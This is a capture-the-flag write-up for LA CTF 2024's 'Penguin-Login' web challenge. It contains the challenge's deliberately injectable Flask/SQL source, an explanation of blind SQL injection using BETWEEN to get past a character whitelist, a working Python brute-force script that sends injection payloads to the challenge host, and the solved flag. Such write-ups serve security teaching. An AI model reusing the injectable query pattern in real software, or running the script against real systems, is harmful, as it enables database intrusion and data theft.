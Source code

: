 ```yaml
---
title: Penguin-Login
date: 2024-02-18T20:05:34+02:00
description: Writeup for Penguin-Login [LA CTF 2024]
type: writeup
author: H0N3YP0T
tags:
- web
draft: false
---
```

___

## Challenge Description

I got tired of people leaking my password from the db so I moved it out of the db. penguin.chall.lac.tf

## Intuition

The website is really basic, it only does one request which is vulnerable to SQL injections.

![login](/images/la_ctf_2024/penguin.png)

![test_sqli](/images/la_ctf_2024/penguin_test.png)

## Solution

By looking in the source code, I notice that the original query is `"SELECT * FROM penguins WHERE name = '%s'"` but the
tricky part is that a whitelist of characters is used to filter the input. I can not use the word `LIKE` and I can use only
`a-zA-Z0-9` and `{_}` characters.

```python
with app.app_context():
    conn = get_database_connection()
    create_sql = """
        DROP TABLE IF EXISTS penguins;
        CREATE TABLE IF NOT EXISTS penguins (
            name TEXT
        )
    """
    with conn.cursor() as curr:
        curr.execute(create_sql)
        curr.execute("SELECT COUNT(*) FROM penguins")
        if curr.fetchall()[0][0] == 0:
            curr.execute("INSERT INTO penguins (name) VALUES ('peng')")
            curr.execute("INSERT INTO penguins (name) VALUES ('emperor')")
            curr.execute("INSERT INTO penguins (name) VALUES ('%s')" % (flag))
        conn.commit()


@app.post("/submit")
def submit_form():
    conn = None
    try:
        username = request.form["username"]
        conn = get_database_connection()

        assert all(c in allowed_chars for c in username), "no character for u uwu"
        assert all(
            forbidden not in username.lower() for forbidden in forbidden_strs
        ), "no word for u uwu"

        with conn.cursor() as curr:
            curr.execute("SELECT * FROM penguins WHERE name = '%s'" % username)
            result = curr.fetchall()

        if len(result):
            return "We found a penguin!!!!!", 200
        return "No penguins sadg", 201

    except Exception as e:
        return f"Error: {str(e)}", 400
```

The server does not send the query back, it only sends a message if the query was successful or not. Therefore I need to build an 
error based SQLi. I can use the `BETWEEN` query in order to simulate the `LIKE` query. The following payload is used to guess one by one character of the flag.

![payload](/images/la_ctf_2024/payload_penguins.png)

This payload is an example where I already know the beginning of the flag (flag{tes) and I want to find out the next character. I use the `BETWEEN` query to check if the character I will inject in the first position of the flag is correct or not. If the server returns `We found a penguin!!!!!` then the character is good otherwise it is not. 
Note that I had `z` at the end of the second part of the `BETWEEN` to check from `a` to `z` and if it is a number then I will add `9` to check from `0` to `9`.
In order to be faster I can use `fuff` to fuzz every character by using a wordlist.

![payload](/images/la_ctf_2024/fuff_penguins.png)

or even do it by using a script (thanks to [MettleSphee](https://github.com/MettleSphee))

```python
import requests
url = "https://penguin.chall.lac.tf/submit"

headers = {
  'Content-Type': 'application/x-www-form-urlencoded'
}
found=0
alphabet = '0123456789qwertyuiopasdfghjklzxcvbnm}'
found_string="lactf{90stgr353sn0tl7k3th30th3rdbs0w"
#print(brute[len(brute)-1])
while found_string[len(found_string)-1] != "}":
	if (found == 1):
		break
	for brute in alphabet:
		payload = 'username=\'%20UNION%20SELECT%20name%20from%20penguins%20WHERE%20NAME%20BETWEEN%20\''+found_string+brute+'\'%20AND%20\''+found_string+brute+'z'
		response = requests.request("POST", url, headers=headers, data=payload)
		match response.status_code:
			case 201:
				#print("not found yet")
				if (brute=="}"):
					found = 1
					break
			case 200:
				found_string = found_string + brute
				print(found_string)
				if (brute=="}"):
					found = 1
					break
print("Found! "+found_string)
```

![script](/images/la_ctf_2024/script_penguins.png)

For some reason the flag in the exploit does not contain any `_` character but the flag we have to
submit contains it between the different words which is absolutely demonic. I had a 
lot of trouble to understand the meaning of the flag and put the `_` at the right
place 😡, like, seriously am I the only one who got troubles to understand this `90stgr353sn0tl7k3th30th3rdbs0w0` ???

### Flag

`lactf{90stgr35_3s_n0t_l7k3_th3_0th3r_dbs_0w0}`

